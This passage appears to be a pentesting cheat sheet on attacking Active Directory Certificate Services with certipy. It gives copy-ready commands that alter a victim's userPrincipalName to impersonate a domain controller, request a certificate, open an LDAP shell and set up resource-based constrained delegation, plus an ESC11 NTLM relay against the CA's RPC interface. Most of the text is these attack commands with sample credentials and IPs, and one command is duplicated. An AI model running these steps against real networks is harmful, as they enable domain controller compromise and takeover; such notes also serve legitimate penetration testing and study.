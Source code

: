  - certipy shadow auto -username John@corp.local -p Passw0rd! -account Jane

### Jane's userPrincipalName is then set to DC$@corp.local.

 - certipy account update -username John@corp.local -password Passw0rd! -user Jane -upn 'DC$@corp.local'

### A certificate for client authentication is requested as Jane using the default User template.

 - certipy req -ca 'corp-DC-CA' -username Jane@corp.local -hashes HASH

### Jane's userPrincipalName is reverted to its original after this process.

 - certipy account update -username John@corp.local -password Passw0rd! -user Jane -upn 'Jane@corp.local'

### To authenticate via Schannel, Certipy’s -ldap-shell option is utilized, indicating authentication success as u:CORP\DC$.

 - certipy auth -pfx dc.pfx -dc-ip 172.16.126.128 -ldap-shell

### Through the LDAP shell, commands such as set_rbcd enable Resource-Based Constrained Delegation (RBCD) attacks, potentially compromising the domain controller.

 - certipy auth -pfx dc.pfx -dc-ip 172.16.126.128 -ldap-shell

### This vulnerability also extends to any user account lacking a userPrincipalName or where it does not match the sAMAccountName, with the default Administrator@corp.local being a prime target due to its elevated LDAP privileges and the absence of a userPrincipalName by default.

# ESC11 - Relaying NTLM to ICPR

### If CA Server Do not configured with IF_ENFORCEENCRYPTICERTREQUEST, it can be makes NTLM relay attacks without signing via RPC service. 

### You can use certipy to enumerate if Enforce Encryption for Requests is Disabled and certipy will show ESC11 Vulnerabilities.

 - certipy relay -target 'rpc://DC01.domain.local' -ca 'DC01-CA' -dc-ip 192.168.100.100

## Note: For domain controllers, we must specify -template in DomainController.
